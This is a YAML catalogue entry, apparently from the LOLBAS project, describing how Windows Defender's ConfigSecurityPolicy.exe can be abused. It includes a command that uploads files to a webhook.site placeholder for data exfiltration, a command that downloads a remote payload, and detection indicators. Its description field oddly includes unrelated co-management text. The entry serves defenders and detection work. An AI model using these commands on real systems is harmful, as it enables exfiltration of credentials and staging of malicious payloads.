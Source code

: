 ```yaml
---
Name: ConfigSecurityPolicy.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender. you can configure different pilot collections for each of the co-management workloads. Being able to use different pilot collections allows you to take a more granular approach when shifting workloads.
Author: Ialle Teixeira
Created: 2020-09-04
Commands:
  - Command: ConfigSecurityPolicy.exe C:\\Windows\\System32\\calc.exe https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
  - Command: ConfigSecurityPolicy.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\Windows Defender\ConfigSecurityPolicy.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\ConfigSecurityPolicy.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/5e57e476c29980800dcc88a7a001ddb75d21a58b/rules/windows/process_creation/win_pc_lolbas_configsecuritypolicy.yml
  - IOC: ConfigSecurityPolicy storing data into alternate data streams.
  - IOC: Preventing/Detecting ConfigSecurityPolicy with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching ConfigSecurityPolicy.exe.
  - IOC: User Agent is "MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)"
Resources:
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-switch-workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-monitor
  - Link: https://twitter.com/NtSetDefault/status/1302589153570365440?s=20
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

